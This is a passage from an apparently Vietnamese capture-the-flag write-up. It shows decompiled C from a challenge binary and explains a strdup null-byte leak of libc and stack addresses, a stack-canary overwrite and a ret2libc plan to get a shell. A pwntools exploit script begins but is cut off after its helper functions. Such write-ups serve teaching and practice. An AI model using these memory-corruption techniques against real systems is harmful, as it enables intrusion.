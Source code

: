 ```c
  return v6 - __readfsqword(0x28u);
}
```

- **viewEidis**

```c
int viewEidis()
{
  int result; // eax
  int i; // [rsp+Ch] [rbp-4h]

  if ( !eidiCount )
    return puts("No Eidis recorded yet.");
  puts("List of Eidis Received:\n");
  for ( i = 0; ; ++i )
  {
    result = eidiCount;
    if ( i >= eidiCount )
      break;
    printf("%d. Amount: %.2lf From: ", i + 1, *(double *)&qword_4050[3 * i]);
    write(1, *((const void **)&eidiList + 3 * i), *((unsigned __int16 *)&unk_4048 + 12 * i));
  }
  return result;
}
```

### Analysis

Bài này được cấp **libc** nên mình nghĩ ngay là một bài **ret2libc**. Tuy nhiên **Canary** lại bật, nên mình đi tìm cách để leak các địa chỉ cần thiết trong chương trình.

Ở trong hàm `addEidi()`, mình chú ý thấy đoạn code cho phép người dùng nhập vào độ dài của biến `buf`, sau đó ở vị trí đó sẽ được đặt thành giá trị **null ('\x00')**. -> Sau đó, **strdup()** sẽ copy giá trị của biến `buf` vào trong `v4`.
  > Ở đây, điều lưu ý là hàm `strdup()` sẽ copy cho đến khi gặp phải ký tự **null** => Ở đây mình có thể tận dụng để leak các địa chỉ trên stack.

Hàm `viewEidis()` sẽ in ra các eidi mà mình đã thêm vào. Tận dụng điều này và phát hiện ở trên, mình có thể leak được các giá trị như **libc address** và **stack buffer**.

Đồng thời tận dụng việc byte cuối do người dùng nhập vào biến `v2` sẽ được gán bằng 0 (null) để có thể ghi đè giá trị của **Canary** thành giá trị mong muốn. Sau đó chỉ cần kết hợp tất cả dữ kiện thu được để thực hiện **ret2libc** để lấy được shell => Get flag

### Solution

```python
from pwn import *

p = process("./chall_patched")
elf = ELF("./chall_patched", checksec=False)
libc = ELF("./libc.so.6", checksec=False)

def addEidi(size, name, amount):
    p.sendlineafter(b"choice: ", b"1")
    p.sendlineafter(b"giver's name: ", str(size).encode())
    p.sendafter(b"giver: ", name)
    p.sendlineafter(b"received: ", str(amount).encode())
    

def viewEidis():
    p.sendlineafter(b'choice: ', b'2')
    
# Phase 1: Leak libc

```